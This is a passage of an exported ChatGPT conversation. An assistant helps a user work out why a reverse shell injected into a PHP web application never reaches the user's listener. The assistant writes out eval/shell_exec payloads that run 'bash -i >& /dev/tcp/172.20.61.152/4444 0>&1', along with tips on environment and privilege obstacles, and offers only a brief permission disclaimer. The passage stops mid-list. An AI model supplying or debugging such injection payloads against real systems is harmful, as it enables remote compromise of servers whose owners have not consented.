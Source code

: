 Remember, only perform such tests in environments where you have permission to do so, such as a lab designed for cybersecurity training. Unauthorized access to computer systems is illegal.



------------------

**You:**

the command works when type it directly into the command line but when i try to inject it, nothing happens on the listener side

------------------

**ChatGPT:**

If the command works when typed directly into the command line but not when injected through the PHP application, the problem could be related to the web server environment or the PHP configuration. Here are a few points to consider:


- **Web Server User Privileges**: The web server's user (e.g., `www-data` for Apache on Ubuntu) may not have the same privileges as the user you're testing with in the terminal. This can affect the ability to open sockets or execute certain commands.
- **PHP Environment**: PHP might be running in safe mode, or certain functions may be disabled (`shell_exec`, `exec`, `system`, `passthru`, etc.). Check the `php.ini` file or use `phpinfo();` to get information about the current PHP configuration.
- **PHP Execution**: If you're using `eval()` to execute the command, ensure that the command is properly formatted and that `eval()` is not disabled. PHP's `eval()` is tricky because it executes PHP code rather than shell commands. You would need to ensure that the string passed to `eval()` is a valid PHP statement.

For example:

```php
Copy code
eval("\$result=shell_exec('bash -i >& /dev/tcp/172.20.61.152/4444 0>&1');");

```
Note the escaping of double quotes and the semicolon at the end of the PHP command within `eval()`.
- **SELinux or AppArmor**: Security modules like SELinux or AppArmor might be restricting the web server's abilities. Check the logs for any denied actions.
- **Path and Environment**: When you inject the command, the `PATH` environment variable and other environment variables may be different from those in your terminal session. You may need to use absolute paths to binaries.
- **Network Configuration**: The web server might be on a different network segment that is not routed to the listener, or outbound connections on that port might be blocked by a firewall.
- **Command Output**: Sometimes, you need the command's output to help debug. Try redirecting the command's output to a file that you can read:

```php
Copy code
eval("\$result=shell_exec('bash -i >& /dev/tcp/172.20.61.152/4444 0>&1 2>/tmp/debug.txt');");

```
- **Error Reporting**: Make sure error reporting is turned on in PHP to see if any errors occur during execution. You can enable error reporting by adding these lines at the beginning of your PHP script:
